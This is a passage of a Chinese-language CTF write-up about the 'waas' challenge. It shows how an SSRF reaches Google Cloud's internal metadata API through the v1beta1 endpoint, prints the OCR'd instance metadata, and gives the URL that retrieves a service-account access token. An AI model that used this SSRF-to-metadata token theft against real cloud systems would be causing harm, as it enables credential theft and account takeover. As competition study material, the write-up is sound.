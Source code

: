 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0199e3bb73bd1c3803.png)

虽然不能访问，但是至少说明我们已经绕过了之前的一些限制，成功访问到了 Google Cloud 内部的 API 。我们仔细看错误提示，缺少一个`Metadata-Flavor: Google`请求头，我们可以考虑 CRLF 注入什么的，有点类似 BalsnCTF 2020 tpc 的那道题目，可是这里我们并没有找到一个 CRLF 注入点，所以我们需要找其他的方法。

查看其他选手的做法是通过找到了一个 v1beta1 的这么一个 API ，我们可以访问 [http://metadata.google.internal/computeMetadata/v1beta1/instance/?recursive=true](http://metadata.google.internal/computeMetadata/v1beta1/instance/?recursive=true) 得到一些信息

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0122422e221daec35b.png)

我们可以用一些 OCR 服务帮我们识别图片当中的文字：

```
`{`"attributes": `{`"gce-container-declaration":"spec:\n containers: \n - name: waas\n image:
gcr.io/dicegang-waas/waas\n stdin: false\n tty: false\n restartPolicy: Always\n\n# This
container declaration format is not public API and may change without notice. Please\n# use gcloud
command-line tool or Google Cloud Console to run Containers on Google Compute Engine.", “google-
logging-enabled":"true"`}`, "description":"", "disks":
[`{`"deviceName": "waas", “index":0, “interface”: "SCSI", "mode": "READ_WRITE", "type": "PERSISTENT"`}`], "guestA
ttributes":`{``}`, "hostname": "waas.us-easti-b.c.dicegang-
waas.internal", "id":2549341475975469686, "image" : "projects/cos-cloud/global/images/cos-stable-85-
13310-1209-7", "licenses": [`{`"id" : "6880041984996540132"`}`, `{`"id" :"166739712233658766"`}`,
`{`"id":"1001010"`}`], “machineType": "projects/608525903049/machineTypes/e2-
micro", “maintenanceEvent": "NONE", “name":"waas", "networkInterfaces":[`{`"accessConfigs":
[`{`"externalIp":"35.229.111.15", "type": "ONE_TO_ONE_NAT"`}`], “dnsServers":
("169.254.169.254"), "forwardedIps":[], "gateway": "10.142.0.1", "ip":"10.142.0.2", "ipAliases":
[], "mac": "42:01: 0a: 8e: 00:02", "mtu": 1460, "network": "projects/608525903049/networks/default", "subnetma
sk":"255.255. 240.0", "targetInstanceIps":[]`}`], "preempted": "FALSE", "scheduling":
`{`"automaticRestart": "TRUE", “onHostMaintenance" : "MIGRATE", "preemptible":"FALSE"`}`, "serviceAccounts":
`{`"default": `{`"aliases":["default"], "email": "waas -155@dicegang-waas .iam.gserviceaccount.com", "scopes":
["https: //www.googleapis.com/auth/cloud-platform"]`}`, "waas -155@dicegang-
waas.iam.gserviceaccount.com": `{`"aliases":["default"], "email": "waas-155@dicegang -
waas.iam.gserviceaccount.com", "scopes": ["https: //www.googleapis.com/auth/cloud-platform"]`}``}`, "tags":
["http-server", "https-server"], "zone": "projects/608525903049/zones/us-east1-b"`}`

```

从上面的内容我们大概可以看到 Google Cloud 上托管了一个 docker 镜像，位于`gcr.io/dicegang-waas/waas`，我们可以通过以下方式获取到对应的 Token：[http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json](http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t019c0ef342836319a7.png)
